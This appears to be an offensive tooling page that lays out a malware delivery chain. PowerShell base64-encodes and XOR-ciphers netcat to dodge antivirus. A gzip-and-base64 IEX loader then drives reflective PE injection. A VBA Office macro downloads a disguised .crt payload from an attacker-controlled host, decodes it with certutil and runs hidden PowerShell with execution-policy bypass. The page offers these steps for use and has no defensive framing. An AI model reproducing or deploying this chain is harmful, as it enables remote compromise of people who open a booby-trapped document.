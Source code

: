 ## XORed Netcat

```
function Convert-BinaryToString {
    [CmdletBinding()] param (
        [string] $FilePath
    )
    try {
    $ByteArray = [System.IO.File]::ReadAllBytes($FilePath);
    }
    catch {
        throw "Failed to read file.";
    }
    if ($ByteArray) {
        $Base64String = [System.Convert]::ToBase64String($ByteArray);
    }
    else {
        throw '$ByteArray is $null.';
    }
    Write-Output -InputObject $Base64String;
}

Convert-BinaryToString "c:\users\hassan.saad\desktop\extreme\nc.exe" > nc_base64.txt
(Get-Content -path "c:\users\hassan.saad\desktop\extreme\nc_base64.txt" -Raw) -replace 'A','Z' > key.txt

$file1_b = [System.IO.File]::ReadAllBytes("c:\users\hassan.saad\desktop\extreme\nc_base64.txt")
$file2_b = [System.IO.File]::ReadAllBytes("c:\users\hassan.saad\desktop\extreme\key.txt")
$out = "c:\users\hassan.saad\desktop\extreme\ciphered.txt"

$len = if ($file1_b.Count -lt $file2_b.Count) {$file1_b.Count} else { $file2_b.Count}
$xord_byte_array = New-Object Byte[] $len
# XOR between the files
for($i=0; $i -lt $len ; $i++) {
    $xord_byte_array[$i] = $file1_b[$i] -bxor $file2_b[$i] }
[System.IO.File]::WriteAllBytes("$out", $xord_byte_array)
write-host "[*] $file1 XOR $file2`n[*] Saved to " -nonewline;
Write-host "$out" -foregroundcolor yellow -nonewline; Write-host ".";
```

Then host the ciphered text and the key on your own web server.

Then use the PEInject.ps1 script and replace the URLs with your own web server.

# Compress

Then compress using https://www.multiutil.com/text-to-gzip-compress/ and put the output into the below script.

```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String('insert_gzip_compressed_Invoke-ReflectivePEInjection'));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()
```

Then Base64 the above script using https://www.base64encode.org/ .

## Macro Code VBA

```
Sub DownloadFileFromURL()

Dim FileUrl As String
Dim objXmlHttpReq As Object
Dim objStream As Object

FileUrl = "http://192.168.43.207:8000/ps1.crt"

Set objXmlHttpReq = CreateObject("Microsoft.XMLHTTP")

objXmlHttpReq.Open "GET", FileUrl, False, "username", "password"
objXmlHttpReq.send

If objXmlHttpReq.Status = 200 Then
Set objStream = CreateObject("ADODB.Stream")

ChDir ActiveWorkbook.Path

objStream.Open
objStream.Type = 1
objStream.Write objXmlHttpReq.responseBody
objStream.SaveToFile CurDir() & "\file.crt", 2
objStream.Close

End If

Shell ("cmd /c certutil -decode file.crt decoded.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass -W Hidden .\decoded.ps1")

End Sub
```
